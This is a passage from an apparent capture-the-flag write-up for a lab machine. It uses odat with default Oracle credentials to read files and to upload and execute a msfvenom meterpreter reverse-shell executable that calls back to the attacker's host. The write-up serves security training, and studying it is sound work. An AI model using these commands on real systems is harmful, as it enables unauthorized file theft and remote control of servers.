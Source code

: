 #### Grab root.txt

Once we have `odat` running, instead of writing a webshell, just grab root.txt:

```

root@kali# odat ctxsys -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --getFile c:\\users\\administrator\\desktop\\root.txt

[1] (10.10.10.82:1521): Read the c:\users\administrator\desktop\root.txt file on the 10.10.10.82 server
[+] Data stored in the c:\users\administrator\desktop\root.txt file (escape char replace by '\n'):
CD39EA0A...

```

#### Shell

Still, we wouldn’t know the user directory at this point, so we should use Oracle to get a shell.

While `odat` had indicated that we couldn’t execute files, in fact, we can, with the `externaltable` method. However, if we look at the help, it can only run an executable, no options allowed. So we’ll use `msfvenom` to make an exe:

```

root@kali# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=8084 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe

```

Now upload it:

```

root@kali# odat utlfile -s 10.10.10.82 -U SCOTT -P tiger -d XE --sysdba --putFile \\temp shell.exe shell.exe

[1] (10.10.10.82:1521): Put the shell.exe local file in the \temp folder like shell.exe on the 10.10.10.82 server
[+] The shell.exe file was created on the \temp directory on the 10.10.10.82 server like the shell.exe file

```

And run it:

```

root@kali# odat externaltable -s 10.10.10.82 -U SCOTT -P tiger -d XE --sysdba --exec \\temp shell.exe

[1] (10.10.10.82:1521): Execute the shell.exe command stored in the \temp path

```
